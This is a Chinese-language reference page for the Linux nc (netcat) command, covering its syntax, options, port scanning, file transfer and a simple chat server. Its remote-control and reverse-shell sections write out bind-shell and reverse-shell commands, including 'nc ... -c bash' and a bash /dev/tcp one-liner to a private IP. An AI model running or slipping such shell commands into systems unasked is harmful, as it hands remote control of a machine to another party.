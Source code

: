 # nc

**nc命令** 全称**netcat**，用于TCP、UDP或unix域套接字(uds)的数据流操作，它可以打开TCP连接，发送UDP数据包，监听任意TCP 和UDP端口，同时也可用作做端口扫描，支持IPv4和IPv6，与Telnet的不同在于nc可以编写脚本。

### 语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

### 选项

```bash
-4 使用 IPv4
-6 使用 IPv6
-b 允许广播
-C 发送 CRLF 作为行结束符
-D 启用调试套接字选项
-d 从 stdin 分离
-F 传递套接字 fd
-h 此帮助文本
-I length TCP 接收缓冲区长度
-i interval 发送行、扫描端口的延迟间隔
-k 保持入站套接字打开以进行多个连接
-l 监听模式，用于入站连接
-M ttl 传出 TTL/跳数限制
-m minttl 最小传入 TTL/跳数限制
-N 在 stdin 上的 EOF 后关闭网络套接字
-n 抑制名称/端口解析
-O length TCP 发送缓冲区长度
-P proxyuser 代理身份验证的用户名
-p port 指定远程连接的本地端口
-q secs 在 stdin 上的 EOF 后退出并延迟 secs
-r 随机化远程端口
-S 启用 TCP MD5 签名选项
-s sourceaddr 本地源地址
-T keyword TOS 值
-t 答案TELNET 协商
-U 使用 UNIX 域套接字
-u UDP 模式
-V rtable 指定备用路由表
-v 详细
-W recvlimit 收到一定数量的数据包后终止
-w timeout 连接和最终网络读取的超时
-X proto 代理协议：“4”、“5”（SOCKS）或“connect”
-x addr[:port] 指定代理地址和端口
-Z DCCP 模式
-z 零 I/O 模式 [用于扫描]
```

### 实例

```bash
# 开启一个端口，比如用作端口转发
nc -lk 9876  &
```

#### **TCP端口扫描**

```bash
# 扫描192.168.0.3 的端口 范围是 1-100
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open

# **扫描UDP端口** 扫描192.168.0.3 的端口 范围是 1-1000
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  
```

‍

#### **扫描指定端口**

```bash
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```bash
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```

#### **文件传输**

```bash
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```bash
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

#### **远程控制**

```bash
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```bash
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

#### **反弹shell**

```bash
# 控制端执行下面的命令：
nc -lvnp 8888
```

```bash
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

#### 创建一个简单的聊天服务器

在两个或多个主机之间创建在线聊天的过程与传输文件的方法是基本相同的。

在第一台主机上启动一个 Netcat 进程以侦听端口 5555：

```bash
nc -l 5555
```

在第二台主机上，运行以下命令以连接到侦听端口：

```bash
nc first.host.com 5555
```

现在，如果你键入一条消息并按回车，它将同时显示在两台主机上。

要关闭连接，请键入 `CTRL+C`​。
